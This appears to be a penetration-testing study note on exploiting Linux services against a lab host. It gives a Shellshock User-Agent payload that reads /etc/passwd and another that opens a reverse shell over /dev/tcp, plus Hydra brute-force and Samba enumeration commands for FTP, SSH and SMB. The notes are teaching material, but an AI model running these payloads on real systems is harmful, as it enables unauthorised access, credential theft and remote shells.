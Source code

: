 # Exploiting Linux Vulnerabilities
### ShellShock 
-  CVE-2014-6271 Vulnerability (Shellshock)
- to execute remote arbitrary commands via bash
- not common anymore
- caused in bash
- commands after () { :; };. are being executed
- exploitation
	- need to locate an input vector or script that allows you to communicate with bash
	- in Apache web server, we can utilize any legitimate CGI scripts accessible on web server
- manually and Automated
- **Exploitation process**
	- manually
		- `nmap -sV 10.10.10.10`
		- `nmap -sV 10.10.10.10 --script=http-shellshok --scritp-args "http-shellshock.uri=/gettime.cgi"`
		-  open the web
		- open burp suit
		- replace the User-Agent - `() { :; }; echo;echo;  /bin/bash -c 'cat /etc/passwd'`
		- to get a reverse shell follow the steps
		- `nc -nvlp 1234`
		- replace the User-Agent - `() { :; }; echo;echo;  /bin/bash -c 'bash -i>&/dev/tcp/yourip:1234 0>&1'`
	- with Metasploit
		- Search shellshock
		- use 5
		- configure options, rhosts, TARGETURI
		- run
### Exploiting FTP
- File Transfer Protocol
- TCP 21
- username and passowrd for authentication - can be brute-forced
- sometimes configured to allow anonymous access
- **Exploitation**
	- `nmap -sV 10.10.10.10`
	- using Hydra for brute-force
		- `hydra -L <path to user list> -P <path to passlist> 10.10.10.10 -t 4 ftp `
### Exploiting SSH
- Secure Shell
- used for remote access to servers and systems
- TCP port 22
- authentication
	- username & password
	- key based
- the username & password can be brute-forced
- **Exploitation**
- `nmap -sV 10.10.10.10`
- brute-force with hydra
	- `hydra -L <path to user list> -P <path to pass list> 10.10.10.10  -t 4 ssh`
- `ssh username@10.10.10.10` -> connect to the system with obtained credentials during the brute-force
### Exploiting SAMBA
- Linux implementation of SMB
- network file sharing protocol
- TCP port 445, on top of NetBIOS por t139
- allows windows systems to access Linux shares and devices
- utilizes username & password authintication
- can be brute-forced
- SMBMap tool to enumerate SAMBA ...
- smbclient - provide is with ftp like interface
- **Exploitation Process**
	- `nmap -sV 10.10.10.10`
	- brute force using hydra
		- $`hydra -l admin -P <patht to pass list>  10.10.10.10 smb`
	- connect via SMBMap
		- `smbmap -H 10.10.10.10 -u admin -u admin -p password1`
		- `smbclient //10.10.10.10/<share name> -U admin`
	- run commands on the system/server
	- using enum4linux
		- `enum4linux -a 10.10.10.10`
		- `enum4linux -a -u admin -p password1 10.10.10.10`
